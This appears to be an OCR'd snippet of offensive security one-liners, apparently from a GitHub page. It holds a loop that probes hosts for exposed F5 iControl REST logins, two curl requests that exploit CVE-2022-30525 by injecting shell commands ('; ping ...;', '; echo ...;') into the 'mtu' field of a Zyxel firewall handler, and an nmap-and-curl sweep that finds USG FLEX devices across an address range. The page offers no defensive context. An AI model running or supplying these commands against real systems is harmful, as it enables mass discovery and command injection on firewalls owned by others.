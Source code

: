 # oneliner</br>
F5
</br>
cat hosts | while read host do; do curl -sk "https://$host/mgmt/shared/authn/login" | grep -q 'resterrorresponse' && printf "$host \0331;41mF5 iControl REST API Exposed\e[0m\n"; done
</br>

CVE-2022-30525
</br>
curl -v --insecure -X POST -H "Content-Type: application/json" -d
'{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}'
https://192.168.1.1/ztp/cgi-bin/handler
</br>
curl -v --insecure -X POST -H "Content-Type: application/json" -d
'{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; echo myppsmoll;","data":"hi"}'
https://192.168.1.1/ztp/cgi-bin/handler</br>



to SCAN SPECIFIC RANGE</br>
nmap x.x.x/x -p 443 -Pn -n -sS --min-rate 5000 --open|grep -Eo "([0-9]{1,3}[\.]){3}[0-9]{1,3}"|xargs -n1 -IPOP sh -c '{ echo POP; curl -ks https://POP|grep "<title>USG FLEX [1-7]00</title>" ; }'</br>

